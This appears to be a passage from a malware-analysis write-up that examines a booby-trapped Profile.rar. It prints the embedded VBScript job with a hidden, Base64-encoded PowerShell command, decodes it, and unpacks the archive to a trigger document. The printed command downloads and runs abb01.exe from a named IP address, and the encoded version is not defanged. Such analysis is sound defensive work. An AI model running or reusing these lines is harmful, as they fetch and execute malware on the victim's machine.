 ```text title="Profile.rar dumped to STDOUT"
$ less Profile.rar
<job><script language=vbs>Set WshShell = WScript.CreateObject("WScript.Shell")
runCmd = "POwErshell -noprofile -noni -W Hidden -enc aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA"
WshShell.Run "cmd /c " & runCmd, 0, True</script></job> Rar!...truncated...
```

The raw data includes a script job element that can be natively interpreted by the Windows Script Host (WSH). The job
element directs WSH to spawn a shell that spawns a hidden PowerShell process which then runs a Base64 encoded PowerShell
script. However, the script job element needs to be executed, which isn’t done by double-clicking on the file.

Decoding this string, we can see that a file called `abb01.exe` is downloaded and executed from `104[.]244[.]78[.]177`.
This is the same IP address we have observed across all Testing and Production phases.

```bash title="Decoded PowerShell command"
$ echo "aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQAwADQALgAyADQANAAuADcAOAAuADEANwA3AC8AYQBiAGIAMAAxAC4AZQB4AGUAIgAsACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIAKQApADsAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACIAJABlAG4AdgA6AEwATwBDAEEATABBAFAAUABEAEEAVABBAFwAZABsAGwAaABvAHMAdABTAHYAYwAuAGUAeABlACIA" | base64 -D
```

```powershell title="Resulting powershell output (defanged)"
iex ((new-object system.net.webclient).downloadfile("http://104[.]244[.]78[.]177/abb01.exe","$env:LOCALAPPDATA\dllhostSvc.exe"));Start-Process "$env:LOCALAPPDATA\dllhostSvc.exe"
```

We’ll continue to explore this file to identify how the script job is executed. As we displayed above, the file still
has the `Rar!` header, so we can decompress this archive. First, we’ll use the `unrar` program to decompress the RAR
archive and retrieve the contents:  `document.docx`.

```shell title="Decompressing Profile.rar"
$ unrar e Profile.rar

Extracting from Profile.rar
Extracting  document.docx                                             OK
All OK
```

#### document.docx

While `Profile.rar` appears to be a compressed archive, the PowerShell script won't download and execute `abb01.exe`
automatically upon decompressing it. To execute that script, the compressed document within `Profile.rar`, `document.docx`,
 must be opened.
